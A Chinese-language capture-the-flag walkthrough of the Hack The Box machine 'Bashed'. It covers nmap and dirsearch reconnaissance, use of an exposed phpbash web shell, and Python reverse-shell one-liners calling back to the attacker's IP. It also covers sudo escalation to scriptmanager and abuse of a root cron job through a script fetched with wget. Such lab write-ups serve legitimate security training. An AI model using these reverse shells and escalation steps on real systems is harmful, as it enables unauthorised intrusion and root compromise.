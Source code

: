 # Bashed

## 信息收集

nmap 收集一下信息：

```
sudo nmap -sV 10.10.10.68
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-24 04:12 CDT
Nmap scan report for 10.10.10.68
Host is up (0.43s latency).
Not shown: 998 closed ports
PORT   STATE    SERVICE VERSION
53/tcp filtered domain
80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.33 seconds
```

看起来也是一个突破口在网页的目标。

![image](../../%E5%9B%BE%E5%BA%8A/Firefox_Screenshot_2022-08-24T09-18-44.264Z.png)

看着东西很多，实际上页面能访问的只有index.html、single.html。

先dirsearch扫一下目录，结果如下：

```
Target: http://10.10.10.68/

[04:21:37] Starting:                                                   
[04:21:42] 301 -  308B  - /php  ->  http://10.10.10.68/php/
[04:21:43] 301 -  307B  - /js  ->  http://10.10.10.68/js/
[04:21:52] 403 -  297B  - /.ht_wsr.txt
[04:21:52] 403 -  300B  - /.htaccess.bak1
[04:21:52] 403 -  300B  - /.htaccess.orig
[04:21:52] 403 -  302B  - /.htaccess.sample
[04:21:52] 403 -  300B  - /.htaccess.save
[04:21:52] 403 -  300B  - /.htaccess_orig
[04:21:52] 403 -  301B  - /.htaccess_extra
[04:21:52] 403 -  298B  - /.htaccess_sc
[04:21:52] 403 -  298B  - /.htaccessBAK
[04:21:52] 403 -  299B  - /.htaccessOLD2
[04:21:52] 403 -  290B  - /.htm
[04:21:52] 403 -  298B  - /.htaccessOLD
[04:21:52] 403 -  291B  - /.html
[04:21:52] 403 -  296B  - /.htpasswds
[04:21:52] 403 -  300B  - /.htpasswd_test
[04:21:52] 403 -  297B  - /.httr-oauth
[04:21:56] 403 -  290B  - /.php
[04:21:56] 403 -  291B  - /.php3
[04:22:08] 200 -    8KB - /about.html
[04:22:44] 200 -    0B  - /config.php
[04:22:46] 200 -    8KB - /contact.html
[04:22:48] 301 -  308B  - /css  ->  http://10.10.10.68/css/
[04:22:51] 301 -  308B  - /dev  ->  http://10.10.10.68/dev/
[04:22:51] 200 -    1KB - /dev/
[04:22:59] 301 -  310B  - /fonts  ->  http://10.10.10.68/fonts/
[04:23:04] 301 -  311B  - /images  ->  http://10.10.10.68/images/
[04:23:04] 200 -    2KB - /images/
[04:23:08] 200 -    3KB - /js/
[04:23:25] 200 -  939B  - /php/
[04:23:39] 403 -  299B  - /server-status
[04:23:39] 403 -  300B  - /server-status/
[04:23:54] 301 -  312B  - /uploads  ->  http://10.10.10.68/uploads/
[04:23:54] 200 -   14B  - /uploads/
```

不过返回来看页面上这篇文章，有一些关键信息：

![image](../../%E5%9B%BE%E5%BA%8A/Firefox_Screenshot_2022-08-24T09-29-53.097Z.png)

再结合靶机的名字，不难猜测这里就是突破口。根据地址去github找[源码](https://github.com/Arrexel/phpbash)，大概意思就是这个项目可以传一个可视化的shell上去。

回到目录扫描记录，挨个访问状态200的目录，一般来说可以先挑存储体积比较大的或者目录名字比较敏感的看。

这里访问到/dev/的时候，发现路径下已经部署了phpbash.php，那肯定毫不客气先进shell看看。

![image](../../%E5%9B%BE%E5%BA%8A/Firefox_Screenshot_2022-08-24T09-50-14.874Z.png)

## 漏洞利用

这个shell是个比较低的权限，通过这个shell可以直接拿到user.txt。

```
www-data@bashed:/var/www/html/dev# whoami
www-data
```

然后做一下提权，就能拿到root.txt。首先尝试在web端提取：

```
www-data@bashed:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/arrexel# sudo -u scriptmanager /bin/bash

bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/home/arrexel$ exit
```

这里不能直接用web端shell做提权，需要反弹shell到本地。

本地用 `sudo nc -nvlp 1111` 开监听。

web端输入以下命令，注意修改IP和端口。

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

本地拿到shell，尝试提取，提取命令和上面的一样，以scriptmanager来执行命令。

```
$ sudo nc -nvlp 1111             
listening on [any] 1111 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 43926
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ sudo -l 
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager /bin/bash
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/$ 
```

但是scriptmanager是不能访问root的，也就是说得想其它的办法拿到/root/root.txt。

通过查看目录（好像也没有更简便的方法），可以看到scriptmanager能够访问script目录。

```
scriptmanager@bashed:/$ cd scripts
cd scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py
test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```
这里的test.py其实给出了提示，提示可以通过执行py文件的方式，打开root/root.txt拿回内容。

[这里](https://0xdf.gitlab.io/2018/04/29/htb-bashed.html) 大佬的WP有进一步挖掘细节，test.py是定时自动执行的。所以还是要在这个scripts文件夹下增加文件或修改test.py。

（不过这个服务器没有装vim，可以远程拿本地的）

本地起服务：
```
sudo python3 -m http.server 80
```
起服务的文件夹下新建一个py文件：
```
k = open("/root/root.txt", "r")
f = open("test.txt", "w")
f.write(k.read())
f.close
```
然后shell拿取py文件等待定时执行，查看结果。
```
wget 10.10.16.2/new.py
```

这里其实还有另一种解法，也放在这里，就是使用script定时的功能写py给自己反弹一个root shell。
```
scriptmanager@bashed:/scripts$ echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.157\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py
```